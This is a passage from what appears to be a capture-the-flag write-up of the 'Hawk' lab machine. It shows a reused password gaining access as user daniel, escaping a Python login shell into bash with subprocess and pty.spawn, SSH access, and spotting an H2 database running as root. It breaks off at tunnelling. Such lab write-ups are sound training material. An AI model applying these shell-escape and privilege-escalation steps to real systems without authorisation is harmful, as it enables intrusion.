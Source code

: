 
That password actually works for daniel:

    
    
    www-data@hawk:/var/www/html$ su daniel
    Password:
    Python 3.6.5 (default, Apr  1 2018, 05:46:30)
    [GCC 7.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>>
    

What? Why a python shell? The user’s shell is set to python:

    
    
    www-data@hawk:/var/www/html$ grep daniel /etc/passwd
    daniel:x:1002:1005::/home/daniel:/usr/bin/python3
    

Still, it is easy enough to escape:

    
    
    >>> import subprocess
    >>> subprocess.call('/bin/bash', shell=True)
    daniel@hawk:/var/www/html$ id
    uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)
    

`pty.spawn("/bin/bash")` also works to escape the python shell.

This password also allows SSH access as daniel as well:

    
    
    root@kali# ssh daniel@10.10.10.102
    daniel@10.10.10.102's password:
    Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)
    ...[snip]...
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import pty;pty.spawn('/bin/bash')
    daniel@hawk:~$
    

## Privesc: daniel -> root

### Enumeration

I noticed that h2 is running as root:

    
    
    root        814  0.0  0.0   4628   868 ?        Ss   Nov25   0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
    root        816  0.0  6.8 2339688 67568 ?       Sl   Nov25   4:05 /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
    

[H2](http://www.h2database.com/html/main.html) is a Java based SQL database.
Earlier I came across the H2 page on port 8082. Now I can get local access,
using SSH tunnels (check out [previous post on tunnels](/2018/06/10/intro-to-
ssh-tunneling.html) for details):
